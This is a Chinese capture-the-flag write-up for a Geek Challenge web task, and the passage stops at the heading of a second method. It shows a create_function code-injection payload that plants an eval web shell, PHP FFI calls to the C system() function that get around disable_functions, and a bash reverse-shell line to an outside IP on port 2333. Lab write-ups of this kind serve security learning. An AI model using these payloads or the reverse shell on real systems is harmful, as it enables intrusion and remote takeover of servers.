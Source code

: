 [极客大挑战FighterFightsInvincibl]

![image-20220327195031035](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271950175.png)

看到三个变量我们都可以控制，可以动态执行php命令，`create_function`代码注入

```
create_function(string $args,string $code)
//string $args 声明的函数变量部分
//string $code 执行的方法代码部分
```

我们令`fighter=create_function`，`invincibly=;}eval($_POST[whoami]);/*`即可注入恶意代码并执行。

payload：

```php
/?fighter=create_function&fights=&invincibly=;}eval($_POST[whoami]);//
```

![image-20220327195523120](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271955273.png)

蚁剑连接，但是打不开

open_basedir和disable_function都限制了。

![image-20220327195838512](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271958635.png)

![image-20220327195813154](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203271958323.png)



根据题目名字的描述，应该是让我们使用PHP 7.4 的FFI绕过disabled_function

而且FFI扩展开着的

![image-20220327200001730](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203272000858.png)



**（一）利用FFI调用C库的system函数**

我们首先尝试调用C库的system函数：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system("ls / > /tmp/z3eyond.txt");echo file_get_contents("/tmp/z3eyond.txt");/*
```

C库的system函数执行是没有回显的，所以需要将执行结果写入到tmp等有权限的目录中，最后再使用`echo file_get_contents("/tmp/res.txt");`查看执行结果即可。

但是这道题执行后却发现有任何结果，可能是我们没有写文件的权限。尝试反弹shell：

```php
/?fighter=create_function&fights=&invincibly=;}$ffi = FFI::cdef("int system(const char *command);");$ffi->system('bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"')/*
```

但这里也失败了，可能还是权限的问题。所以，我们还要找别的C库函数。

**（二）利用FFI调用C库的popen函数**
